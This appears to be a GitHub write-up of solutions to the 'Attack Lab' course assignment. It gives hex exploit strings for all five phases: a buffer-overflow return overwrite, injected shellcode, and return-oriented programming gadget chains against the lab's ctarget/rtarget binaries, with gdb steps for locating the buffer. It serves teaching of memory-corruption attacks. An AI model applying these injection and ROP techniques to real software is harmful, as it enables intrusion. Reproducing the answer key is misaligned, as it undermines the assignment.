 # Attack Lab


* Part I: Code Injection Attacks
	+ Phase 1
	+ Phase 2
	+ Phase 3
* Part II: Return-Oriented Programming
	+ Phase 4
	+ Phase 5


In Phases 2 and 3, you caused a program to execute machine code of your own design. If CTARGET had been a network server, you could have injected your own code into a distant machine. In Phase 4, you circumvented two of the main devices modern systems use to thwart buffer overflow attacks. Although you did not inject your own code, you were able inject a type of program that operates by stitching together sequences of existing code.


## Part I: Code Injection Attacks

### Phase 1

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
0 to 39 bytes:  00

40 to 47 bytes: 0x4017c0 <touch1>


### Phase 2

```
48 c7 c7 fa 97 b9 59     # mov    $0x59b997fa, %rdi     value of cookie
68 ec 17 40 00           # push   $0x4017ec             0x4017ec <touch2>
c3                       # retq
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00  # address of buf
```
0 to 39 bytes:  injected code

40 to 47 bytes: address of buf
```
gdb ctarget
(gdb) break getbuf
(gdb) run
(gdb) p/x $rsp
(gdb) p/x $rsp-0x28      # address of buf
```


### Phase 3

```
48 c7 c7 a8 dc 61 55     # push   $0x5561dca8, %rdi     sval = buf+0x28+0x8  address of my cookie string
68 fa 18 40 00           # push   $0x4018fa             0x4018fa <touch3>
c3                       # retq
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00  # address of buf
35 39 62 39 39 37 66 61  # ASCII representation of my cookie
```
0 to 39 bytes:  injected code

40 to 47 bytes: address of buf

48 to 55 bytes: ASCII representation of my cookie


## Part II: Return-Oriented Programming

### Phase 4

#### Solution 1 (used 1 gadget)
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
1b 14 40 00 00 00 00 00  # popq   %rdi                  0x40141b <scramble+0x..>   not in farms, maybe illegal
fa 97 b9 59 00 00 00 00  # cookie = 0x59b997fa 
ec 17 40 00 00 00 00 00  # retq                         0x4017ec <touch2>
```

#### Solution 2 (used 2 gadgets)
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00  # popq   %rax                  58
fa 97 b9 59 00 00 00 00  # cookie = 0x59b997fa
a2 19 40 00 00 00 00 00  # movq   %rax, %rdi            48 89 c7

ec 17 40 00 00 00 00 00  # address of touch2                          0x4017ec <touch2>
```



### Phase 5

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

06 1a 40 00 00 00 00 00  # movq   %rsp, %rax            48 89 e0
a2 19 40 00 00 00 00 00  # movq   %rax, %rdi            48 89 c7

ab 19 40 00 00 00 00 00  # popq   %rax                  58
48 00 00 00 00 00 00 00  # offset   rsp + offset = address of string

dd 19 40 00 00 00 00 00  # movl   %eax, %edx            89 c2
34 1a 40 00 00 00 00 00  # movl   %edx, %ecx            89 d1 (38 c9)
13 1a 40 00 00 00 00 00  # movl   %ecx, %esi            89 ce

d6 19 40 00 00 00 00 00  # lea    (%rdi,%rsi,1),%rax    48 8d 04 37   0x4019d6 <add_xy>

a2 19 40 00 00 00 00 00  # movq   %rax, %rdi            48 89 c7

fa 18 40 00 00 00 00 00  # address of touch3                          0x4018fa <touch3>

35 39 62 39 39 37 66 61  # ASCII representation of my cookie
```
